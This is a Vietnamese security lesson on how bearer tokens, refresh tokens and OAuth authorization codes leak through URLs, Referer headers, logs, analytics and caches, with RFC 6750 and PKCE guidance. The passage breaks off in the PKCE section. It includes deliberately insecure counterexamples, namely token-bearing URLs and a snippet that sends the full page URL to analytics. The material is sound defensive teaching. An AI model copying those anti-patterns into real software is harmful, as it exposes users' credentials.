





# Token leakage qua URL

## Mục tiêu học tập

Module **SECURITY_TOKEN_SECURITY_FUNDAMENTALS** giúp hiểu mô hình tin cậy và vòng đời token bảo mật: phân biệt JWT, opaque token, access token và refresh token trong xác thực, phân quyền, OAuth 2.0/OIDC; phát hành, kiểm tra claims, scope, audience, lưu trữ, thu hồi và phòng chống token bị đánh cắp hoặc phát lại. Trong chương **Threats**, bài **“Token leakage qua URL”** tập trung vào một đường rò rỉ rất thực tế: **đặt credential vào URL khiến nó đi qua nhiều nơi vốn không được thiết kế để giữ bí mật**.

Sau bài này, bạn có thể:

- Phân biệt **query**, **fragment**, **path**, **redirect Location**, **Referer** và body/header HTTP trong đường đi của một URL.
- Giải thích vì sao **Bearer access token, refresh token, ID Token, authorization code** có mức nhạy cảm và quy tắc vận chuyển khác nhau; không đánh đồng chúng vì đều là “chuỗi giống JWT”.
- Mô tả cách token lộ qua browser history, copy/share link, gateway/CDN/access logs, APM, analytics, referrer, extension, screenshot và link preview.
- Hiểu **RFC 6750** ưu tiên gửi OAuth Bearer access token qua `Authorization` header, không dùng URI query; hạn chế của fragment và giải pháp cũ OIDC implicit flow.
- Áp dụng **Authorization Code + PKCE (`S256`)**, `state`, redirect URI validation, kiểm soát open redirect và xử lý callback an toàn theo OAuth Security BCP.
- Thiết kế **BFF/HttpOnly session cookie** hoặc JavaScript client gọi API bằng header; dùng `Referrer-Policy`, `Cache-Control`, CSP và log redaction đúng giới hạn.
- Phân biệt **link có token đặc thù** (reset password/invitation/magic link) với OAuth AT/RT; khi link-token là bắt buộc cần TTL ngắn, một lần, giới hạn phạm vi và biện pháp chống scanner/pre-fetcher.
- Xây dựng mô hình tấn công, kịch bản ứng cứu, ma trận kiểm thử và checklist để tránh **biến URL thành kho chứa credential**.

> **Nguyên tắc cốt lõi:** **Không đặt OAuth access token hoặc refresh token vào URL query, path, fragment hay redirect Location** khi có cách vận chuyển được chuẩn hóa và an toàn hơn. Với Bearer API request, dùng **`Authorization: Bearer <token>` trên HTTPS**. Một URL có chứa bí mật có thể bị ghi lại và chia sẻ qua những hệ thống không thuộc ranh giới tin cậy của Authorization Server/Resource Server.

## 1. “Token leakage qua URL” là vấn đề gì?

**Token leakage** xảy ra khi một token hoặc credential liên quan được sao chép ra khỏi thành phần vốn được phép giữ nó. **Leakage qua URL** là trường hợp token nằm trong request target, URL hiển thị ở browser, URL dùng cho redirect hoặc liên kết được chia sẻ, khiến credential đi qua các thành phần quan sát URL:

```text
https://api.example.com/orders?access_token=eyJ...
                              └──────────────┘
                              Bearer credential trong query
```

Một người có được Bearer AT và còn đáp ứng các điều kiện của RS có thể thử gọi API như chủ thể được token đại diện. **Mối nguy không nằm ở việc JWT có thể đọc được payload** — kể cả opaque AT cũng có thể bị lợi dụng nếu attacker giữ được chuỗi. Bản chất rủi ro là **credential xuất hiện ở nơi dễ bị ghi lại/quan sát hơn**.

### 1.1. URL đi qua những thành phần nào?



Sơ đồ liệt kê **các nơi có thể quan sát URL**, không khẳng định mọi request đều bị phát tán tới tất cả các nơi. Ví dụ, browser `Referer` phụ thuộc chính sách referrer, HTTPS, loại điều hướng và các bảo vệ khác; **không phải mọi cross-origin navigation đều gửi đầy đủ query**.

### 1.2. Trường hợp minh họa

```http
GET /api/orders?access_token=<bearer-access-token> HTTP/1.1
Host: api.example.com
```

Nếu reverse proxy log cả request target:

```text
2027-03-10T10:01:00Z GET /api/orders?access_token=<bearer-access-token> 200
```

Người đọc log, công cụ phân tích tập trung hoặc attacker chiếm quyền truy cập log có thể lấy chuỗi đó. Việc server xử lý được request không biến cách vận chuyển này thành an toàn.

**Cách đúng với Bearer access token:**

```http
GET /api/orders HTTP/1.1
Host: api.example.com
Authorization: Bearer <access-token>
Accept: application/json
```

`Authorization` header cũng **là credential cần bảo vệ**: TLS, log redaction, proxy header handling và endpoint authorization vẫn bắt buộc. Ưu điểm là token không nằm trong URL — nơi thường xuất hiện ở browser history, navigation, access log và công cụ link sharing.

## 2. Các phần của URL và mức độ lộ khác nhau

Một URL minh họa:

```text
https://portal.example.com/callback/path?code=K&state=S#id_token=J
│────── scheme/host ─────────││─── path ──││─ query ──││─ fragment ─│
```

| Phần | Có đi trong HTTP request target tới server? | Rủi ro khi chứa credential |
| --- | --- | --- |
| **Path** (`/token/<secret>`) | Có. | Proxy/CDN logs, route metrics, tracing, server logs, redirect, browser history. |
| **Query** (`?access_token=...`) | Có. | Tương tự path, và có thể trở thành dữ liệu trong referrer/navigation, analytics, cache keys. |
| **Fragment** (`#access_token=...`) | **Thông thường không gửi tới server HTTP** trong request target. | Vẫn xuất hiện ở địa chỉ browser; JS trên trang có thể đọc, XSS/extension/browser history/copy-link có thể lấy. |
| **Redirect `Location` header** | Là URL server hướng browser đi tới. | Browser/history/log response headers, redirect chain, điểm đến ngoài dự kiến. |
| **`Referer` request header** | Browser có thể gửi khi navigation/fetch tùy policy. | Có thể truyền URL nguồn (có hoặc không có query) sang endpoint nhận referrer. |
| **`Authorization` request header** | Đi tới endpoint trên kết nối HTTP được thiết lập. | Là vị trí chuẩn cho Bearer; vẫn cần TLS, header redaction, không forwarding tùy tiện. |
| **HTTPS POST body** | Đi trong body tới endpoint đích. | Dùng cho token endpoint và revocation theo giao thức; vẫn cần bảo vệ logs/tracing/body capture. |

**Chú ý về `Referer`:** fragment **không được đưa vào `Referer`** theo hành vi browser chuẩn. Query/path có thể được đưa vào **tùy Referrer-Policy và bối cảnh**. Không nên dựa vào “fragment không đi trên wire” để kết luận fragment là kho bí mật an toàn.

### 2.1. Query string

```text
https://api.example.com/orders?access_token=<AT>
https://portal.example.com/open?refresh_token=<RT>
https://files.example.com/download?jwt=<JWT>
```

Các URL trên là **phản ví dụ** đối với OAuth bearer credential. Dù bên lập trình đặt tên `jwt` hoặc `session_key` thay vì `access_token`, rủi ro không đổi nếu tham số là token có quyền truy cập.

### 2.2. Path parameter và route parameter

```text
https://api.example.com/session/<bearer-secret>/orders
```

Chuyển secret từ query sang path **không giải quyết leakage**: path vẫn được server/proxy nhận, có thể thành route tag, xuất hiện ở access log, trace và URL share.

### 2.3. Fragment và sự ngộ nhận về bảo mật

```text
https://app.example.com/callback#access_token=<AT>&token_type=Bearer
```

Fragment không được gửi như một phần request target tới web server. Tuy nhiên trang `app.example.com` có thể truy cập `location.hash`; JavaScript bị XSS, script bên thứ ba chạy cùng origin, extension hoặc người nhận URL được copy có thể lấy token.

**Phần client-side cleanup bằng `history.replaceState` giảm dấu vết ở thanh địa chỉ/history sau khi trang đã tải, nhưng không cứu được token đã bị lấy trước đó**. Không dùng fragment để né yêu cầu bảo vệ token.

### 2.4. HTTPS bảo vệ đoạn nào?

HTTPS bảo vệ request/response **trên đường truyền TLS giữa các điểm kết nối**. Nó **không ngăn**:

- Proxy/gateway/CDN tại điểm TLS termination thấy URL đầy đủ.
- Server hoặc APM ghi request target vào logs.
- Browser/extension thấy URL trong thanh địa chỉ hoặc history.
- Người dùng copy link, gửi ảnh chụp màn hình hoặc chia sẻ với link preview service.
- Script cùng origin bị XSS đọc URL trước khi token được xóa.

Vì vậy **`https://...?...token=...` không tự an toàn chỉ vì URL dùng HTTPS**.

## 3. Phân loại credential: AT, RT, ID Token và authorization code

| Credential | Mục đích và nơi được phép dùng | Nếu bị đưa vào URL? |
| --- | --- | --- |
| **OAuth access token (AT)** | Client gửi tới **Resource Server đúng audience** qua Bearer header hoặc sender-constrained scheme phù hợp. | Có thể bị dùng trực tiếp tại RS trong cửa sổ hiệu lực. Không nên nằm trong URL. |
| **OAuth refresh token (RT)** | Client gửi **tới AS token endpoint** theo grant `refresh_token` để xin AT mới. | Rủi ro nghiêm trọng: mở đường mint AT mới; không đưa vào URL, referrer, analytics. |
| **OIDC ID Token** | OIDC RP xác minh user authentication, issuer, audience chính là client, signature, nonce/time. | Rò claim danh tính/PII và có thể gây replay/token confusion ở client yếu; không dùng như API AT. |
| **Authorization code** | OP/AS trả qua front-channel trong Code Flow, RP đổi code ở token endpoint **một lần** với PKCE/client binding. | Vẫn nhạy cảm; có thể lộ qua callback query/log/referrer; **khác AT** và hạn chế khai thác bởi code binding/PKCE/TTL. |
| **`state` / `nonce`** | Liên kết giao dịch/callback và ID Token với request. | Không phải Bearer AT, nhưng vẫn là giá trị anti-CSRF/replay nhạy cảm; không log tự do hoặc chứa PII. |
| **Session cookie** | Browser gửi tới RP/BFF theo cookie scope và policy. | Không nhét session ID vào URL; dùng cookie `Secure`/`HttpOnly`/`SameSite` và session store. |
| **Link-specific one-time token** | Ví dụ reset password, invitation, email verification do dịch vụ phát hành cho tác vụ cụ thể. | Có thể phải tồn tại trong link; cần threat model riêng (mục 11), **không coi đó là OAuth access token**. |

### 3.1. JWT chỉ là format

Một chuỗi ba phần `header.payload.signature` trông giống JWT không đủ để quyết định nó là loại token nào hoặc có thể dùng ở API nào. OAuth AT có thể là JWT hoặc opaque; ID Token thường là JWT. RS phải xác minh **token purpose/type, `iss`, `aud`, `exp`/`nbf`, chữ ký hoặc introspection, scope và quyền đối tượng**, không dùng “chuỗi decode được” làm bằng chứng quyền.

**Leakage phụ thuộc khả năng sử dụng credential**, không phụ thuộc tên file hay độ dễ đọc của nó. Một opaque AT không đọc được payload vẫn có thể bị phát lại nếu là Bearer token và còn hiệu lực.

### 3.2. Access token và refresh token không hoán đổi

```text
Client -> Orders API:
  Authorization: Bearer <access_token>

Client -> AS /token:
  POST application/x-www-form-urlencoded
  grant_type=refresh_token&refresh_token=<refresh_token>
```

**Không gửi RT tới Resource Server**, không cho RS chấp nhận ID Token như AT và không cho client dùng AT như RT tại token endpoint. Khi thiết kế loại bỏ URL leakage, trước hết phải xác định **token type** và **trust boundary**.

## 4. Threat model: ai có thể lấy token từ URL?

### 4.1. Các bề mặt quan sát

| Bề mặt | Đường lộ | Ai có thể thấy tùy cấu hình? |
| --- | --- | --- |
| **Browser history/bookmark** | URL có token được lưu hoặc đồng bộ history. | Người dùng khác trên máy, browser profile/sync, phần mềm hỗ trợ/hạ tầng có quyền. |
| **Reverse proxy/CDN/WAF logs** | Request target gồm path/query. | SRE/support/security tooling, vendor log storage hoặc attacker có quyền logs. |
| **APM/tracing/errors** | URL được đưa vào trace span, exception, telemetry. | Nhóm vận hành và hệ thống observability bên thứ ba. |
| **Referrer khi navigation** | URL nguồn có query được gửi theo `Referrer-Policy`/ngữ cảnh. | Đích navigation, same-origin service hoặc bên thứ ba nếu policy cho phép. |
| **Analytics/SDK/3rd-party scripts** | Script đọc `location.href` rồi gửi event. | Nhà cung cấp SDK/analytics và bất kỳ actor có quyền truy cập dữ liệu ấy. |
| **Copy/paste/screenshots/QR** | Con người vô tình gửi URL đầy đủ. | Chat/mail/support/ticket, dịch vụ preview URL và người nhận. |
| **Browser extension/XSS** | Script quan sát `location`, history, callback state. | Extension có quyền phù hợp, script bị chèn hoặc dependency độc hại. |
| **Cache** | Query/path nằm trong cache key/log hoặc response chứa token bị cache. | Edge cache/operator; không phải cache nào cũng chứa query hoặc payload. |
| **Open redirect** | Client/AS đưa URL chứa credential qua destination do attacker điều khiển. | Đích redirect, server và logging pipeline của attacker. |

**Không có một cơ chế phòng thủ duy nhất chặn mọi đường trên.** Ví dụ `Referrer-Policy` không loại được edge logs; `Cache-Control` không xóa URL khỏi history; `history.replaceState` không thay OAuth AT query thành phương thức chuẩn.

### 4.2. Ranh giới tin cậy



Khi token bị lộ, attacker **không mặc định luôn thành công**: token có thể đã hết hạn/revoked, sai audience, thiếu scope hoặc bị ràng buộc DPoP/mTLS. Tuy nhiên hệ thống không được dựa vào các điều kiện may mắn đó để hợp thức hóa việc đặt credential vào URL.

### 4.3. Phân tích “khả năng khai thác”

Hỏi theo thứ tự:

1. **Token gì?** AT, RT, ID Token, code, session token hay one-time link token?
2. **Ai được phép giữ nó?** Browser JS, backend BFF, AS, RS, hoặc người dùng nhận link?
3. **Nó được đưa vào URL nào?** Query/path/fragment, redirect chain, OAuth callback hay link chia sẻ?
4. **URL được ai quan sát?** Gateway, logs, analytics, cross-origin navigation, extension hoặc ticket?
5. **Có thể đổi sang credential khác không?** RT có thể mint AT; code cần PKCE/client binding; AT Bearer có thể gọi API.
6. **Giới hạn sử dụng?** Issuer/audience/scope/TTL, sender constraint, rate limit, revoke, session?
7. **Phát hiện và giảm thiểu?** Traces/correlation, revocation/rotation, cache invalidation, log purge, incident response.

Mức nghiêm trọng được quyết định bởi **quyền thực tế và cửa sổ sử dụng**, không chỉ bởi việc URL có chứa tên tham số `token`.

## 5. Rò rỉ qua `Referer` và điều hướng

`Referer` (tên header lịch sử chỉ có một chữ `r` trong `Referer`) có thể thông báo cho đích nhận request trang nguồn mà browser đang điều hướng/nhúng tài nguyên từ đó.

### 5.1. Mô phỏng trong chính origin

Giả sử ứng dụng vô tình hiển thị:

```text
https://portal.example.com/dashboard?access_token=<AT>
```

Người dùng bấm liên kết đến một trang khác **cùng origin**:

```http
GET /help HTTP/1.1
Host: portal.example.com
Referer: https://portal.example.com/dashboard?access_token=<AT>
```

Với những chính sách referrer thường dùng, browser có thể gửi **URL nguồn đầy đủ trên request cùng origin** (không có fragment). Như vậy AT có thể đi vào access log của `/help`, một ứng dụng con khác cùng origin, APM hay pipeline phân tích request không thuộc trust boundary của API token.

### 5.2. Điều hướng sang bên thứ ba

Nếu user mở `https://analytics.example.net/` từ trang nguồn chứa token, việc browser có gửi full URL nguồn hay chỉ gửi origin phụ thuộc **Referrer-Policy**, bối cảnh HTTPS và browser. Ví dụ:

- Với chính sách mặc định hiện đại **`strict-origin-when-cross-origin`**, cross-origin HTTPS→HTTPS thường gửi **origin** thay vì path/query; HTTPS→HTTP downgrade thường **không gửi referrer**.
- Với chính sách nới lỏng như **`unsafe-url`**, browser có thể gửi path/query trên cross-origin request, làm lộ token (fragment vẫn không đi trong Referer).
- Với **`no-referrer`**, browser không gửi `Referer` từ response/page được áp chính sách ấy.
- Với **`same-origin`**, browser có thể gửi referrer trên cùng origin nhưng không gửi tới origin khác.

**Vì vậy không đúng khi nói mọi cross-origin request đều làm lộ toàn bộ query**, nhưng cũng **không an toàn khi dựa vào browser default** để cho phép giữ Bearer token trong URL. URL có thể lọt vào nhiều kênh không phải Referer.

### 5.3. Chính sách khuyến nghị ở callback/entrypoints nhạy cảm

```http
Referrer-Policy: no-referrer
Cache-Control: no-store
Pragma: no-cache
```

`Referrer-Policy: no-referrer` giảm truyền URL nguồn qua `Referer` từ tài liệu/response đó. `Cache-Control: no-store` giảm khả năng lưu **response** ở cache có hỗ trợ; nó không xóa URL khỏi browser history, server logs hoặc analytics đã nhận trước đó. `Pragma` là header tương thích lịch sử, không nên coi là thay thế cho các cache directives hiện đại.

**Phòng vệ căn bản vẫn là không đặt credential vào URL từ đầu.** Dù dùng `no-referrer`, URL chứa AT vẫn có thể nằm trong browser history, proxy logs, link đã share hoặc script đang chạy.

### 5.4. HTML và DOM còn tạo đường lộ khác

Ngoài `Referer`, mã JavaScript có thể tự gửi `location.href` vào telemetry:

```javascript
// PHẢN VÍ DỤ: đẩy URL hiện tại — có thể chứa credential — vào analytics.
analytics.track("page_view", {
  page_url: window.location.href
});
```

Nếu URL có `access_token`/`code`/`state`, việc này có thể biến sự kiện analytics thành kho chứa credential hoặc transaction values. **Redact trước khi gọi analytics**, và tốt hơn là chỉ gửi route template/path không chứa bí mật. Không chỉ cài một regex ở dashboard analytics vì token có thể đã bị ghi ở tầng thu thập/truyền/backup.

## 6. Rò rỉ qua logs, proxy, APM và cache

### 6.1. Access log là nơi rò rỉ thường bị bỏ qua

Nhiều web server/proxy có cấu hình log request line hoặc URL đầy đủ:

```text
"GET /orders?access_token=<AT> HTTP/1.1" 200
"GET /callback?code=<authorization-code>&state=<state> HTTP/1.1" 302
```

Hai URL mang giá trị **nhạy cảm nhưng khác nhau**. AT có thể gọi API trực tiếp; code là credential một lần cần đổi ở token endpoint với PKCE/client binding. Cả hai không nên nằm trong log toàn quyền.

### 6.2. Những điểm cần redaction

| Hệ thống | Trường cần kiểm tra | Phương án |
| --- | --- | --- |
| **CDN/Edge/WAF** | Request URI, query, response `Location`, blocked request samples. | Không chấp nhận AT query; query allowlist/redaction trước khi log/export. |
| **Load balancer/reverse proxy** | `$request_uri` hoặc request line, HTTP 3xx headers. | Log route template hoặc path được lọc, xóa token/code từ trường log. |
| **API application** | HTTP request URL, exception messages, span attributes, structured logging. | Header redaction, query redaction, parameter allowlist, hạn chế body capture. |
| **APM/tracing/error reporting** | `http.url`, `url.full` hoặc equivalent, links to failed requests. | Đưa URL đã sanitize, không chèn token vào span/event. |
| **Analytics/browser SDK** | `location.href`, search/hash, click events. | Track route/template không có credential, kiểm tra third-party SDK. |
| **Support/CI/testing** | Curl command, HAR files, screenshots, copied links. | Dùng fake tokens và redaction trước khi chia sẻ, TTL/retention phù hợp. |
| **Caches** | Query/path cache keys, response headers/body. | Không dùng URL token; với response nhạy cảm dùng cache policy thích hợp, không dựa vào cache-key làm bảo mật. |

**Không chỉ lọc tên `access_token`.** Một hệ thống có thể dùng `token`, `jwt`, `credential`, `sid` hoặc một tham số tùy biến; cũng có thể nhét secret vào `/path/<secret>` hay `Location`. Nên kết hợp **chặn mẫu kiến trúc sai**, allowlist route/params, kiểm thử regex/masking và phân quyền logs.

### 6.3. Đừng ghi raw `Authorization` header như cách “sửa” query

Chuyển token từ query sang header **đúng tiêu chuẩn**, nhưng nếu APM ghi toàn bộ header, token vẫn lộ. Cần:

```text
Authorization: [REDACTED]
Cookie: [REDACTED]
Set-Cookie: [REDACTED]
refresh_token: [REDACTED]
client_secret: [REDACTED]
code_verifier: [REDACTED]
```

Thực hiện redaction ở **nguồn tạo log**, hạn chế quyền truy cập/retention log, không chờ công cụ SIEM lọc ở cuối pipeline vì bản sao gốc có thể đã lưu ở nhiều nơi.

### 6.4. CDN/cache key không làm query an toàn

Một CDN có thể bỏ qua hoặc giữ query trong cache key; cả hai đều có rủi ro riêng:

- **Bỏ qua query:** nếu API cá nhân hóa mà cache sai cấu hình, có thể trả response của một user cho user khác.
- **Giữ query:** secret có thể tồn tại trong cache metadata, logs, metrics và dashboard.
- **Cache response AT trong URL:** có thể làm lộ data và token với cấu hình header không đúng.

Đối với API Bearer có dữ liệu riêng tư, cần chính sách cache chặt phù hợp RFC 9111 và kiến trúc, thường **`Cache-Control: private, no-store`** hoặc `no-store` nơi cần; không dựa vào `Vary: Authorization` đơn lẻ nếu mô hình cache không được kiểm soát.

## 7. RFC 6750: vì sao Bearer token không nên ở URI query?

**RFC 6750 — OAuth 2.0 Bearer Token Usage** mô tả cách sử dụng Bearer token với Resource Server. Phương thức thường được ưu tiên là:

```http
GET /orders HTTP/1.1
Host: api.example.com
Authorization: Bearer <access-token>
```

RFC 6750 cũng mô tả **form-encoded body parameter** trong những điều kiện hạn chế và **URI query parameter** để tương thích với trường hợp không thể dùng các phương thức khác. Tuy nhiên **URI query method không được khuyến nghị**, vì token có nhiều khả năng được log/ghi lại và chịu những đường leakage đã nêu.

### 7.1. Vì sao không dùng `?access_token=`?

```http
GET /orders?access_token=<AT> HTTP/1.1
Host: api.example.com
```

Các vấn đề:

- Request target có token, tăng khả năng xuất hiện trong access logs và observability.
- Có thể bị lưu trong history/bookmark hoặc copy/paste URL.
- Dễ bị lan truyền qua referrer trong một số bối cảnh, redirect hoặc embedded resources khi cấu hình thiếu an toàn.
- URL vốn thường là identifier để cache/analytics/trace, không phải vùng chứa bí mật.
- Việc thay đổi chính sách log ở *một* proxy không bảo đảm tất cả proxy, browser, SDK và dịch vụ ngoài đều an toàn.

**Lưu ý về RFC:** không nên diễn đạt RFC 6750 “không hề định nghĩa URI-query” — nó **có định nghĩa `access_token` query method** nhưng **không khuyến nghị sử dụng**, và OAuth Security Best Current Practice hiện đại càng củng cố việc tránh token trong URL.

### 7.2. Cách gửi token từ JavaScript client

```javascript
// Ví dụ minh họa. accessToken phải được cấp bởi flow OAuth hợp lệ.
async function loadOrders(accessToken) {
  const response = await fetch("https://api.example.com/orders", {
    method: "GET",
    headers: {
      "Authorization": "Bearer " + accessToken,
      "Accept": "application/json"
    },
    credentials: "omit"
  });

  if (!response.ok) {
    throw new Error("Orders request failed");
  }
  return response.json();
}
```

**Không đặt** `?access_token=...` vào URL trong đoạn code trên. Đối với cross-origin requests, browser có thể cần CORS preflight do custom `Authorization` header; **CORS là quy tắc browser chia sẻ response, không thay thế kiểm chứng token/authorization trên API**. `credentials: "omit"` chỉ là ví dụ khi API dùng Bearer token và không cần cookie; không áp dụng máy móc cho mọi BFF/session architecture.

### 7.3. HTTP POST body có tốt hơn query không?

Đối với **API Bearer**, ưu tiên `Authorization` header. Dùng `access_token` làm form body parameter chỉ có phạm vi/điều kiện theo RFC 6750; không trộn nó với `Authorization` cho cùng request và không tự đổi từ header sang body tùy tiện.

Đối với **OAuth token endpoint**:

```http
POST /oauth2/token HTTP/1.1
Host: identity.example.com
Content-Type: application/x-www-form-urlencoded

grant_type=refresh_token&refresh_token=<refresh-token>
```

RT thuộc **AS token endpoint request body**, không phải URL/GET. Body vẫn cần HTTPS và chống request-body capture trong proxy/APM. **Không gửi RT trong `Authorization: Bearer` tới Orders API**.

### 7.4. Server-side Java client

```java
// Java 17+ HttpClient ví dụ minh họa: token tuyệt đối không ở query.
HttpRequest request = HttpRequest.newBuilder()
    .uri(URI.create("https://api.example.com/orders"))
    .header("Authorization", "Bearer " + accessToken)
    .header("Accept", "application/json")
    .GET()
    .build();

HttpResponse<String> response = client.send(
    request,
    HttpResponse.BodyHandlers.ofString()
);
```

**Không log `request.headers()` trực tiếp** nếu nó chứa `Authorization`. `accessToken` phải đến từ token management đã xác minh issuer/audience/scope và được lưu đúng policy; câu lệnh HTTP trên không tự kiểm chứng token.

## 8. OAuth/OIDC Authorization Code Flow: callback vẫn có `code` trong URL

Điểm dễ nhầm: bài học yêu cầu **không đặt access token/refresh token vào URL**, nhưng OAuth **Authorization Code Flow** thông thường lại có **`code`/`state` trong callback query**. Đây là **một credential khác**, được giao thức chủ ý thiết kế cho front-channel với các kiểm soát riêng.

### 8.1. Luồng được khuyến nghị với PKCE



**Authorization code khác access token:**

- Code chỉ có thể đổi một lần, thời hạn ngắn, bị ràng buộc đúng client/redirect URI và PKCE verifier.
- Access token là credential dành cho Resource Server, có thể được chấp nhận trên nhiều API requests đến khi hết hiệu lực.
- RT dùng để mint AT mới; nó **không xuất hiện ở callback** và không được đưa vào front-channel.
- `state` giúp liên kết callback với đúng browser/transaction, giảm login CSRF; trong tích hợp nhiều AS cần issuer binding/mix-up defenses.
- Ở OIDC, RP phải verify ID Token `iss`/`aud`/`exp`/`nonce` khi áp dụng, chữ ký/alg và policy trước khi coi user đã đăng nhập.

### 8.2. Callback query vẫn là dữ liệu nhạy cảm

```text
https://portal.example.com/callback?code=<authorization-code>&state=<state>
```

Mặc dù đây là luồng chuẩn, **không có nghĩa được phép log `code` hoặc `state` tự do**:

- Callback trả **`Referrer-Policy: no-referrer`** và cache policy phù hợp.
- Tránh trang callback load **third-party analytics/scripts/images** trước khi xử lý code/transaction.
- Redact code/state tại reverse proxy, APM, access log, crash report và support tools.
- Sau khi callback được xử lý, **redirect tới URL sạch** không chứa code/state. Nếu là SPA, có thể dùng `history.replaceState` để làm sạch địa chỉ sớm, nhưng phải bảo đảm transaction đã được xử lý/lưu an toàn và không hiểu đó là giải pháp duy nhất.
- Không cho open redirect làm browser đi tiếp tới `redirect_uri` do attacker điều khiển.

### 8.3. PKCE giảm thiểu rủi ro gì?

Nếu code K bị lộ từ callback URL, attacker chưa chắc đổi được K thành token vì token endpoint kiểm tra **`code_verifier` bí mật của transaction** phù hợp với `code_challenge=S256`. Nhưng:

